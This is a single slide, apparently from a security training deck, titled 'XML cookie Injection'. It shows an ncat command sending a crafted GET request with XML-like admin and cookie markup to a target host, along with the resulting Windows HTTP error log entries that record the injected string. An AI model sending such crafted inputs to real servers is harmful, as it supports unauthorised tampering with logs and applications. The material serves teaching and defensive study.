

32
# XML cookie Injection

ncat targethost 49152
GET /<user name="admin"cookie="pass"address="111"> HTTP/1.0\r\n\r\n
c:\windows\system32\logfiles\httperr\httperr1.log:
#Software: Microsoft HTTP API 2.0
#Version: 1.0
#Date: 2011-08-22 09:19:16
#Fields: date time c-ip c-port s-ip s-port cs-version cs-method cs-uri sc-status
s-siteid s-reason s-queuename
2011-08-22 09:19:16 10.10.10.101 46130 10.10.9.9  47001 - - - 400 - BadRequest -
2011-08-22 09:19:16 10.10.10.101 46234 10.10.9.9  47001 HTTP/1.0
GET /<user%20name="admin"cookie="pass"address="111"> 404 - NotFound -